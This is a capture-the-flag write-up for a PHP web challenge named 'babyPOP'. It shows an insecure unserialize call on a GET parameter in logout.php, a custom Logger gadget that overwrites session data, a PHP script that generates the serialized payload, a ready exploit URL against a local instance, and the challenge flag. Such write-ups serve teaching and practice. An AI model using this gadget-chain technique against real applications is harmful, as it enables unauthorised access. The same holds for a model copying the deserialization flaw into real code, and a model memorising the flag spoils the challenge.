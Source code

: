 # babyPOP

**Author** : DreyAnd    
**Difficulty** : <font color='orange'>Medium</font>  
**Description** : Fellow pwners love to ROP.. let's introduce it to the web!   
**Infrastructure requirements** : docker, zip

Flag: `SCC{W3lc0m3_t0_pHp_P0P_G4dg3ts}`

# Solution:

Once you login, there's the following check:
```php
<?php if($_SESSION['developerSettings'] == "givemeflag"){ echo $flag;} else { echo "NULL";} ?></h5>
```

All we have to do is to write into `$_SESSION` somehow. 

Looking at `logout.php`, there seems to be an insecure PHP deserialization vulnerability via `timestamp` parameter:
```php
if(isset($_GET['timestamp']) && !empty($_GET['timestamp'])){
    unserialize($_GET['timestamp']);
    header("location: index.php");
    exit; // Prevent developers from logging out and keep track of their work.
    
} else {
    session_destroy();
    header("location: login.php");
    exit;
}
```

There are no generic gadgets we can use since the codebase doesn't rely on any frameworks or such, so we need to create a custom POP gadget chain.

We find the following code in `classes/Logger.php`:
```php
<?php

class Logger {
    public $timestamp;

    function __construct(){
        if(!isset($this->timestamp)) {
            $this->timestamp = "01-01-2024";
        }
    }
    function __destruct(){
        $devSettings = $this->timestamp;
        $_SESSION['developerSettings'] = $devSettings;
    }
}

?>
```

We can use this as our gadget. 

You can use the following exploit to generate your payload:
```php
<?php 

class Logger {
    public $timestamp;

    function __construct(){
        $this->timestamp = "givemeflag";
    }

}

$exp = new Logger();

echo urlencode(serialize($exp));

?>
```

All that is left is to pass the exploit, which can be done via the following URL:
```
http://127.0.0.1:1337/logout.php?timestamp=O%3A6%3A%22Logger%22%3A1%3A%7Bs%3A9%3A%22timestamp%22%3Bs%3A10%3A%22givemeflag%22%3B%7D
```

Once you log in to your account again, you get greeted with the flag.
